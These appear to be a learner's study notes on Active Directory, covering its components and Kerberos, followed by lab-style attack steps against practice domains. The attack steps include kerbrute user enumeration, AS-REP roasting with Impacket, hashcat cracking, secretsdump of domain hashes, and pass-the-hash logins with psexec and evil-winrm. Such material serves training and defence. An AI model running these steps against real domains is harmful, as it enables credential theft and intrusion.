








**Active Directory**

* Directory service developed by microsoft to manage Windows domain networks
* Stores information related to objects,such as Computers, Users, Printers, etc. ( Phonebook for windows )
* Authenticates using Kerberos tickets.
* Non-Windows devices, such as Linux machine, firewalls,etc. can also authenticate to Active Directory via RADIUS or LDAP(Lightweight Directory Access Protocol).

**AD comprises of:**
-   Domain Controllers
-   Forests, Trees, Domains
-   Users + Groups 
-   Trusts
-   Policies 
-   Domain Services

# Why use AD?
- Control and monitoring of their user's computers through a single domain controller.
- Allows a single user to sign in to any computer on the active directory network and have access to his or her stored files and folders in the server, as well as the local storage on that machine.
- This allows for any user in the company to use any machine that the company owns, without having to set up multiple users on a machine. Active Directory does it all for you.


# AD Components(Physical)
## **Domain Controllers**
A server controller is a server with the AD DS (Active directory domain service) server role installed that has specifically been promoted to a domain controller




* Have all the information about users, printrs, systems in the network.
* Kerberos is at DS level.
If it get compro then whole compro get compromised cuz we can make and delete items , policies,etc
-   holds the AD DS data store 
-   handles authentication and authorization services 
-   replicate updates from other domain controllers in the forest
-   Allows admin access to manage domain resources

## **AD DS Data Store**
The **Active Directory Data Store** holds the databases and processes needed to store and manage directory information such as users, groups, and services.
-   Contains the **NTDS.dit** - a database that contains all of the information of an Active Directory domain controller as well as password hashes for domain users
-   Stored by default in %SystemRoot%\\NTDS
-   accessible only by the domain controller





**Some things to keep in mind are:**
-   Trees - A hierarchy of domains in Active Directory Domain Services
-   Domains - Used to group and manage objects 
-   Organizational Units (OUs) - Containers for groups, computers, users, printers and other OUs
-   Trusts - Allows users to access resources in other domains
-   Objects - users, groups, printers, computers, shares
-   Domain Services - DNS Server, LLMNR, IPv6
-   Domain Schema - Rules for object creation


# AD Components(Logical)

## AD DS Schema 
* Contains information of every object that can be created in DS

## Domains
* Domains are used to group and manage objects in an organization





## Trees
* Group of domains




Share namespace and trust between each sub domain

## Forests
* Collection of one or more domain and trees.
* This is the only thing that makes their whole network.	








## Users + Groups
The users and groups depend on us but by default users comes are 
1. Administrator
2. Guest
### Users
Users are the core to AD.
-   Domain Admins - This is the big boss: they control the domains and are the only ones with access to the domain controller.
-   Service Accounts (Can be Domain Admins) - These are for the most part never used except for service maintenance, they are required by Windows for services such as SQL to pair a service with a service account
-   Local Administrators - These users can make changes to local machines as an administrator and may even be able to control other normal users, but they cannot access the domain controller
-   Domain Users - These are your everyday users. They can log in on the machines they have the authorization to access and may have local administrator rights to machines depending on the organization.
### Groups
 Groups make it easier to give permissions to users and objects by organizing them into groups with specified permissions. There are two overarching types of Active Directory groups:
 -   **Security Groups** - These groups are used to specify permissions for a large number of users
-   **Distribution Groups** - These groups are used to specify email distribution lists. As an attacker these groups are less beneficial to us but can still be beneficial in enumeration

### Default Security Groups
 There are a lot of default security groups so I won't be going into too much detail of each past a brief description of the permissions that they offer to the assigned group. Here is a brief outline of the security groups:

-   Domain Controllers - All domain controllers in the domain
-   Domain Guests - All domain guests
-   Domain Users - All domain users
-   Domain Computers - All workstations and servers joined to the domain
-   Domain Admins - Designated administrators of the domain
-   Enterprise Admins - Designated administrators of the enterprise
-   Schema Admins - Designated administrators of the schema
-   DNS Admins - DNS Administrators Group
-   DNS Update Proxy - DNS clients who are permitted to perform dynamic updates on behalf of some other clients (such as DHCP servers).
-   Allowed RODC Password Replication Group - Members in this group can have their passwords replicated to all read-only domain controllers in the domain
-   Group Policy Creator Owners - Members in this group can modify group policy for the domain
-   Denied RODC Password Replication Group - Members in this group cannot have their passwords replicated to any read-only domain controllers in the domain
-   Protected Users - Members of this group are afforded additional protections against authentication security threats. See http://go.microsoft.com/fwlink/?LinkId=298939 for more information.
-   Cert Publishers - Members of this group are permitted to publish certificates to the directory
-   Read-Only Domain Controllers - Members of this group are Read-Only Domain Controllers in the domain
-   Enterprise Read-Only Domain Controllers - Members of this group are Read-Only Domain Controllers in the enterprise
-   Key Admins - Members of this group can perform administrative actions on key objects within the domain.
-   Enterprise Key Admins - Members of this group can perform administrative actions on key objects within the forest.
-   Cloneable Domain Controllers - Members of this group that are domain controllers may be cloned.
-   RAS and IAS Servers - Servers in this group can access remote access properties of users


## Organizational Units (Ous)
OUs are Active Directory containers that can contain users, groups, computers, and other OUs




## Objects
Objects are the part of Ous


## Trusts
**Provide a mechanism for users to gain access to resources in another domain.**




## Policies
They simply act as a rulebook for Active  Directory that a domain admin can modify and alter as they deem necessary to keep the network running smoothly and securely. Along with the very long list of default domain policies, domain admins can choose to add in their own policies not already on the domain controller, for example: if you wanted to disable windows defender across all machines on the domain you could create a new group policy object to disable Windows Defender. The options for domain policies are almost endless and are a big factor for attackers when enumerating an Active Directory network. I'll outline just a few of the  many policies that are default or you can create in an Active Directory environment:
-   Disable Windows Defender - Disables windows defender across all machine on the domain
-   Digitally Sign Communication (Always) - Can disable or enable SMB signing on the domain controller

## Domain Services
They are services that the domain controller provides to the rest of the domain or tree. There is a wide range of various services that can be added to a domain controller
-   LDAP - Lightweight Directory Access Protocol; provides communication between applications and directory services
-   Certificate Services - allows the domain controller to create, validate, and revoke public key certificates
-   DNS, LLMNR, NBT-NS - Domain Name Services for identifying IP hostnames

## Domain Authentication
he most important part of Active Directory -- as well as the most vulnerable part of Active Directory -- is the authentication protocols set in place. There are two main types of authentication in place for Active Directory: NTLM and Kerberos.
-   Kerberos - The default authentication service for Active Directory uses ticket-granting tickets and service tickets to authenticate users and give users access to other resources across the domain.
-   NTLM - default Windows authentication protocol uses an encrypted challenge/response protocol


# AD in cloud
Recently there has been a shift in Active Directory pushing the companies to cloud networks for their companies. The most notable AD cloud provider is Azure AD. Its default settings are much more secure than an on-premise physical Active Directory network; however, the cloud AD may still have vulnerabilities in it. 

  

## Azure AD Overview
Azure acts as the middle man between your physical Active Directory and your users' sign on. This allows for a more secure transaction between domains, making a lot of Active Directory attacks ineffective.


## Cloud Security
The best way to show you how the cloud takes security precautions past what is already provided with a physical network is to show you a comparison with a cloud Active Directory environment:


# Task
Search why cloud default AD is more secure than network AD and what makes it secure.

`powershell -ep bypass` - this will load powershell with execution policy bypass
`PowerView.ps1` used to enumerate the AD.
[Powerview cheatsheet](https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993) 
`mimikatz` used for post exploitation on windows
`SharpHound.ps1` used for AD enum

**After powerview to enum**
`Get-NetComputer -fulldata | select operatingsystem` get list of all os 
`Get-NetUser | select sn` get list of all users on the domain.
Finding Last password set time for the SQLservice user
`Get-NetUser -SPN | ?{$\_.memberof -match 'Domain Admins'}`
Finding Group Names
`Get-NetGroup -GroupName *`


>Get Users on DC > Fetch Passwords Hases from DC > Crack Them > Use EvilWinRm or PSexec for login into system.

# Exploitation of AD
For the exploitation part we gonna need Impacket installed in our system
`git clone https://github.com/SecureAuthCorp/impacket.git /opt/impacket`
`pip3 install -r /opt/impacket/requirements.txt`
`cd /opt/impacket/ && python3 ./setup.py install`


## Enumerating the DC ( for getting users )
1. By using `enum4linux` we will be able to find out the domain name and TLD (ex:.local) system is using.
2. If you have port *445* open then use 	`rpcinfo`.
3. Use `enum4linux 10.10.10.161` for user enumeration.
4. Now we gonna use `kerbrute` to bruteforce discovery of users, passwords and even password spray.
- As example usage: `
kerbrute userenum --dc htb.local -d spookysec.thm userlist.txt`

*Users found on DC*

So as far we found 
1. Domain name - spookysec.local
2. Users - srv-admin,backup,administrator

3. So now we will enum the SMB service 
`smbclient -L spookysec.local --user svc-admin`
`smbclient \\\\spookysec.local\\backup --user svc-admin`

### Enumerating users for dumping hashes out of DC controller


## Exploiting Kerberos
After the enumeration of user accounts is finished, we can attempt to abuse a feature within Kerberos with an attack method called **ASREPRoasting.** ASReproasting occurs when a user account has the privilege "Does not require Pre-Authentication" set. This means that the account **does not** need to provide valid identification before requesting a Kerberos Ticket on the specified user account.
[Impacket](https://github.com/SecureAuthCorp/impacket) has a tool called "GetNPUsers.py" (located in Impacket/Examples/GetNPUsers.py) that will allow us to query ASReproastable accounts from the Key Distribution Center. The only thing that's necessary to query accounts is a valid set of usernames which we enumerated previously via Kerbrute.

---
`python3 GetNPUsers.py spookysec.local/svc-admin` gives this hash so we have the hash now as we can query without a password.


*Hash we need to crack*

````
hashcat -m 18200 hash.txt passwordlist.txt
````

By the above command we will be able to get the cracked password.

After having creds we can dump the files 
````
python3 secretsdump.py -just-dc backup@spookysec.local
````


It used DRSUAPI method to get those hases 
Now
Getting the shell by the password ntlm we found

```
sudo python3 psexec.py Administrator:@spookysec.local -hashes aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc
```

or use
````
evil-winrm -i 10.10.63.2 -u Administrator -H e4876a80a723612986d7609aa5ebc12b
````
*gem install evil-winrm*

This method of auth is called [**Pass The Hash**](https://attack.stealthbits.com/pass-the-hash-attack-explained)
[Cyber Mentor](https://www.youtube.com/watch?v=L8fK5-oTSws)

# Attacking Kerberos
Basic steps to take for attacking
-   Initial enumeration using tools like Kerbrute and Rubeus
-   Kerberoasting
-   AS-REP Roasting with Rubeus and Impacket
-   Golden/Silver Ticket Attacks
-   Pass the Ticket
-   Skeleton key attacks using mimikatz

What is Kerberos?
Kerberos is the default authentication service for Microsoft Windows domains. It is intended to be more "secure" than NTLM by using third party ticket authorization as well as stronger encryption. Even though NTLM has a lot more attack vectors to choose from Kerberos still has a handful of underlying vulnerabilities just like NTLM that we can use to our advantage.

## Common terminology
-   **Ticket Granting Ticket (TGT)** - A ticket-granting ticket is an authentication ticket used to request service tickets from the TGS for specific resources from the domain.
-   **Key Distribution Center (KDC)** - The Key Distribution Center is a service for issuing TGTs and service tickets that consist of the Authentication Service and the Ticket Granting Service.
-   **Authentication Serv****ice (AS)** - The Authentication Service issues TGTs to be used by the TGS in the domain to request access to other machines and service tickets.
-   **Ticket Granting Service (TGS)** - The Ticket Granting Service takes the TGT and returns a ticket to a machine on the domain.  
    
-   **Service Principal Name (SPN)** - A Service Principal Name is an identifier given to a service instance to associate a service instance with a domain service account. Windows requires that services have a domain service account which is why a service needs an SPN set.
-   **KDC Long Term Secret Key (KDC LT Key)** \- The KDC key is based on the KRBTGT service account. It is used to encrypt the TGT and sign the PAC.
-   **Client Long Term Secret Key (Client LT Key)** \- The client key is based on the computer or service account. It is used to check the encrypted timestamp and encrypt the session key.
-   **Service Long Term Secret Key (Service LT Key)** \- The service key is based on the service account. It is used to encrypt the service portion of the service ticket and sign the PAC.
-   **Session Key** - Issued by the KDC when a TGT is issued. The user will provide the session key to the KDC along with the TGT when requesting a service ticket.
-   **Privilege Attribute Certificate (PAC)** - The PAC holds all of the user's relevant information, it is sent along with the TGT to the KDC to be signed by the Target LT Key and the KDC LT Key in order to validate the user.

## AS-REQ w/ Pre-Authentication In Detail 
The AS-REQ step in Kerberos authentication starts when a user requests a TGT from the KDC. In order to validate the user and create a TGT for the user, the KDC must follow these exact steps. The first step is for the user to encrypt a timestamp NT hash and send it to the AS. The KDC attempts to decrypt the timestamp using the NT hash from the user, if successful the KDC will issue a TGT as well as a session key for the user.

### Ticket Granting Ticket Contents
In order to understand how the service tickets get created and validated, we need to start with where the tickets come from; the TGT is provided by the user to the KDC, in return, the KDC validates the TGT and returns a service ticket.


### Service Ticket Contents
To understand how Kerberos authentication works you first need to understand what these tickets contain and how they're validated. A service ticket contains two portions: the service provided portion and the user-provided portion. I'll break it down into what each portion contains.

-   Service Portion: User Details, Session Key, Encrypts the ticket with the service account NTLM hash.
-   User Portion: Validity Timestamp, Session Key, Encrypts with the TGT session key.


### Kerberos Authentication Overview

AS-REQ - 1.) The client requests an Authentication Ticket or Ticket Granting Ticket (TGT).

AS-REP - 2.) The Key Distribution Center verifies the client and sends back an encrypted TGT.

TGS-REQ - 3.) The client sends the encrypted TGT to the Ticket Granting Server (TGS) with the Service Principal Name (SPN) of the service the client wants to access.

TGS-REP - 4.) The Key Distribution Center (KDC) verifies the TGT of the user and that the user has access to the service, then sends a valid session key for the service to the client.

AP-REQ - 5.) The client requests the service and sends the valid session key to prove the user has access.

AP-REP - 6.) The service grants access


## Kerberos Tickets Overview
The main ticket that you will see is a ticket-granting ticket these can come in various forms such as a .kirbi for Rubeus .ccache for Impacket. The main ticket that you will see is a .kirbi ticket. A ticket is typically base64 encoded and can be used for various attacks. The ticket-granting ticket is only used with the KDC in order to get service tickets. Once you give the TGT the server then gets the User details, session key, and then encrypts the ticket with the service account NTLM hash. Your TGT then gives the encrypted timestamp, session key, and the encrypted TGT. The KDC will then authenticate the TGT and give back a service ticket for the requested service. A normal TGT will only work with that given service account that is connected to it however a KRBTGT allows you to get any service ticket that you want allowing you to access anything on the domain that you want.

### Attack Privilege Requirements
-   Kerbrute Enumeration - No domain access required 
-   Pass the Ticket - Access as a user to the domain required
-   Kerberoasting - Access as any user required
-   AS-REP Roasting - Access as any user required  
    
-   Golden Ticket - Full domain compromise (domain admin) required 
-   Silver Ticket - Service hash required 
-   Skeleton Key - Full domain compromise (domain admin) required

# Abusing Pre-Authentication Overview w/ Kerbrute
By brute-forcing Kerberos pre-authentication, you do not trigger the account failed to log on event which can throw up red flags to blue teams. When brute-forcing through Kerberos you can brute-force by only sending a single UDP frame to the KDC allowing you to enumerate the users on the domain from a wordlist.

So for this we gonna use the kerbrute to identify the users on the server.
``./kerbrute userenum --dc CONTROLLER.local -d CONTROLLER.local User.txt``


# Harvesting & Brute-Forcing Tickets w/ Rubeus
Rubeus has a wide variety of attacks and features that allow it to be a very versatile tool for attacking Kerberos. Just some of the many tools and attacks include overpass the hash, ticket requests and renewals, ticket management, ticket extraction, harvesting, pass the ticket, AS-REP Roasting, and Kerberoasting.

The tool has way too many attacks and features for me to cover all of them so I'll be covering only the ones I think are most crucial to understand how to attack Kerberos however I encourage you to research and learn more about Rubeus and its whole host of attacks and features here - [https://github.com/GhostPack/Rubeus](https://github.com/GhostPack/Rubeus)
